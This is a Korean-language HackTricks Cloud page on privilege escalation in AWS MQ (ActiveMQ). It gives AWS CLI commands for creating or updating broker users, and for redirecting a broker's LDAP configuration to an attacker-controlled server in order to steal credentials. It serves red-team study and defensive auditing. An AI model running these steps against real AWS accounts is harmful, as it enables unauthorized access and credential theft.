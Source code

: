 # AWS - MQ 권한 상승

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>을 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 **해킹 트릭을 공유**하세요.

</details>

## MQ

MQ에 대한 자세한 정보는 다음을 참조하세요:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

이러한 권한을 가지고 있다면 **ActimeMQ 브로커에 새 사용자를 생성**할 수 있습니다(RabbitMQ에서는 작동하지 않음):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**잠재적 영향:** ActiveMQ를 통해 민감한 정보에 접근

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

이러한 권한을 가지고 있다면 **ActimeMQ 브로커에 새로운 사용자를 생성**할 수 있습니다 (RabbitMQ에서는 작동하지 않음):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**잠재적 영향:** ActiveMQ를 통해 민감한 정보에 접근

### `mq:ListBrokers`, `mq:UpdateBroker`

브로커가 **ActiveMQ**를 사용하여 **LDAP**를 사용하는 경우, 공격자가 제어하는 **LDAP 서버의 구성을 변경**할 수 있습니다. 이렇게 하면 공격자는 **LDAP를 통해 전송되는 모든 자격 증명을 도난**할 수 있습니다.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
만약 ActiveMQ에서 사용된 원래 자격 증명을 찾을 수 있다면 MitM을 수행하여 자격 증명을 도용하고 원래 서버에서 사용하고 응답을 보낼 수 있습니다 (도난된 자격 증명을 재사용하여 이 작업을 수행할 수도 있습니다).

**잠재적인 영향:** ActiveMQ 자격 증명 도난

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* 회사를 **HackTricks에서 광고**하거나 **PDF로 HackTricks를 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* 독점적인 [**NFT**](https://opensea.io/collection/the-peass-family) 컬렉션인 [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>
